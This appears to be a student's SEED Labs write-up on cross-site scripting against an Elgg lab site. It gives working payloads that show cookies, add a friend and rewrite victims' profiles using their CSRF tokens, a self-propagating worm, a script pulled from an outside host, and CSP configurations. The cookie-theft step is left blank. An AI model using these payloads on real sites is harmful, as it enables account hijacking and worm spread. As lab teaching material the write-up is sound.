







# XSS

## Task 1: Posting a Malicious Message to Display an Alert Window

```html
<script>alert('XSS');</script>
```

## Task 2: Posting a Malicious Message to Display Cookies

```html
<script>alert(document.cookie);</script>
```



## Task 3: Stealing Cookies from the Victim’s Machine

```html
<script>document.write('');
</script>
```

```shell
$ nc -lknv 5555
```



## Task 4: Becoming the Victim’s Friend

```html
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token; 
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

* Question 1: Explain the purpose of Lines 1 and 2, why are they are needed?

* Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e.,
  you cannot switch to the Text mode, can you still launch a successful attack?

  Answer 1: 用于获得用户的`elgg_ts`和`elgg_token`，这两个是用于防止CSRF的参数。

  Answer 2: 不能，因为HTML tag会被转义。

## Task 5: Modifying the Victim’s Profile

```html
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content="description=<p>Samy is my hero.</p> &accesslevel[description]=2"+userName+guid+ts+token; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
if(elgg.session.user.guid!=samyGuid) // LINE
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```

Question 3: Why do we need LINE? Remove this line, and repeat your attack. Report and explain
your observation.

Answer: 防止修改Samy的profile。如果修改了Samy的profile，该XSS脚本将不再存在。

## Task 6: Writing a Self-Propagating XSS Worm

* Link approach

  ```shell
  <script type="text/javascript" src="http://www.example.com/xss_worm.js">
  </script>
  ```

  

* DOM approach
```html
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>"; 
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 
alert(jsCode);
</script>
```

## Task 7: Defeating XSS Attacks Using CSP

```
http://www.example32a.com
http://www.example32b.com
http://www.example32c.com
```


1. Describe and explain your observations when you visit these websites.
2. Click the button in the web pages from all the three websites, describe and explain your observations.
3. Change the server configuration on example32b (modify the Apache configuration), so Areas 5 and
6 display OK. Please include your modified configuration in the lab report.
4. Change the server configuration on example32c (modify the PHP code), so Areas 1, 2, 4, 5, and 6
all display OK. Please include your modified configuration in the lab report.
5. Please explain why CSP can help prevent Cross-Site Scripting attacks.

Answer:

1. http://www.example32a.com

   

	原因：没有设置任何CSP，可以执行所有脚本。
	
	http://www.example32b.com

	
	
	原因：通过Apache设置了CSP，只允许self和*.example70.com的脚本。因此inline脚本不会被执行，其余来源的脚本也不会被执行。
	
	http://www.example32c.com
	
	

	通过PHP设置了CSP，允许self、nonce-111-111-111和来自*.example70.com的脚本执行。

2. 点击按钮，只有example32a.com的脚本执行了。原因是内联JS脚本被CSP禁用。

3. 如下所示：

`nano /etc/apache2/sites-available/apache csp.conf`

   ```
   # Purpose: Setting CSP policies in Apache configuration
   <VirtualHost *:80>
       DocumentRoot /var/www/csp
       ServerName www.example32b.com
       DirectoryIndex index.html
       Header set Content-Security-Policy " \
                default-src 'self'; \
                script-src 'self' *.example60.com *.example70.com \
              "
   </VirtualHost>
   
   ```

   `script-src`中添加`*.example60.com`。

   

4. 如下所示：

   `nano nano /var/www/csp/phpindex.php `
   
   ```php
   <?php
     $cspheader = "Content-Security-Policy:".
                  "default-src 'self';".
                  "script-src 'self' 'nonce-111-111-111' *.example60.com *.example70.com".
                  "";
     header($cspheader);
   ?>
   
   <?php include 'index.html';?>
   
   ```
   
   添加了`*.example60.com `。

	

5. CSP使用白名单告诉客户端允许加载和不允许加载的内容，降低XSS攻击的可能性。